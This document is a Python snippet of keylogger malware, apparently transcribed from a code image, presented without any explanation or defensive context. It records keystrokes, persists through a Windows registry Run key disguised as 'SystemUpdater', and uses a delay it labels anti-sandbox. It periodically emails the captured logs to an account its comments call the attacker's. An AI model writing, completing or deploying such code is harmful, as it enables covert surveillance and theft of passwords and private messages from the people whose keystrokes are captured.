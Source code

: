 ```python
EMAIL_ADDRESS = "your_email@example.com"   # Replace with attacker's email address
EMAIL_PASSWORD = "your_password"           # Replace with attacker's email password
SEND_INTERVAL = 60  # Interval to send logs in seconds

# Initialize log variable
log = ""

# Anti-sandbox delay
time.sleep(10)

# Function to add persistence
def add_persistence():
    try:
        key = r"Software\Microsoft\Windows\CurrentVersion\Run"
        value_name = "SystemUpdater"
        keylogger_path = os.path.realpath(sys.argv[0])
        ctypes.windll.advapi32.RegSetValueExW(ctypes.windll.advapi32.HKEY_CURRENT_USER, key, 0, 1, value_name, keylogger_path)
        print("[*] Persistence achieved via registry key.")
    except Exception as e:
        print(f"[!] Failed to add persistence: {e}")

# Keylogger functions
def on_press(key):
    global log
    try:
        log += str(key.char)
    except AttributeError:
        if key == key.space:
            log += " "
        elif key == key.enter:
            log += "\n"
        else:
            log += f" [{str(key)}] "

# Function to send email with logs
def send_email(log_data):
    try:
        msg = MIMEMultipart()
        msg["From"] = EMAIL_ADDRESS
        msg["To"] = EMAIL_ADDRESS
        msg["Subject"] = "Keylogger Log"

        msg.attach(MIMEText(log_data, "plain"))

        # Connect to server and send email
        server = smtplib.SMTP("smtp.example.com", 587)  # Replace with email provider's SMTP server
        server.starttls()
        server.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
        server.sendmail(EMAIL_ADDRESS, EMAIL_ADDRESS, msg.as_string())
        server.quit()
    except Exception as e:
        print(f"[!] Failed to send email: {e}")

# Periodic log sending
def report():
    global log
    while True:
        if log:
            send_email(log)
            log = ""
        time.sleep(SEND_INTERVAL)

```